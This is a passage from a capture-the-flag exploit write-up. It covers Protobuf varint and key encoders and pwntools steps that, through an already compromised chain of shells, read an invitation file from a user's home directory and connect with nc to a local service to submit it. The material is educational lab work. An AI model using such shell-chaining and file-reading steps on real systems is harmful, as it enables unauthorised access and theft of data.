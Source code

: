 As with the previous stages, the exploit in this section will expand on the previous one.

First, utilities to create varints and keys are defined with reference to the Protobuf
documentation:

```python
def encode_varint(number: int) -> bytes:
    '''Encodes a number into a varint.
    '''
    # First the number needs to be chunked up into groups of 7 bits.
    groups = []
    current_number = number
    while current_number > 0:
        current_group = current_number & 0x7f
        current_number = current_number >> 7
        groups.append(current_group)

    # For each group, set the MSB based on the index and append them. The least significant group
    # starts first.
    result = b''
    for i, group in enumerate(groups):
        mask = 0x80
        # Do not set the MSB for the last byte.
        if i == len(groups) - 1:
            mask = 0x00
        result += bytes([mask | group])

    return result


def encode_key(field: int, wire_type: int) -> bytes:
    '''Encodes the key as a varint.

    Wire type can only take up 3 bits.
    '''
    key_number = (field << 3) | (wire_type & 0x7)
    return encode_varint(key_number)
```

Before contacting the server, we have to obtain the invitation code.

```python
    # Read the invitation.
    log.info('Reading the invitation code...')
    c.sendline(b'cat /home/mouse/an-unbirthday-invitation.letter')
    c.sendline(b'echo END_OF_FLAG')
    c.recvuntil(b'By the way, please quote the following before entering the party:')
    invitation_code = c.recvuntil(b'END_OF_FLAG').replace(b'END_OF_FLAG', b'').strip()
    log.success("Got invitation code: {}".format(invitation_code.decode('utf-8')))
```

Next, the connection is opened using `nc` through the chain of shells and the invitation code is
submitted.

```python
    # Open a connection to the unbirthday party.
    c.sendline(b'nc localhost 4714')
    c.recvuntil(b'Invitation Code: ')
    c.sendline(invitation_code)
    c.recvuntil(b'Correct! Welcome!')
    log.info('Successfully entered the party.')
```
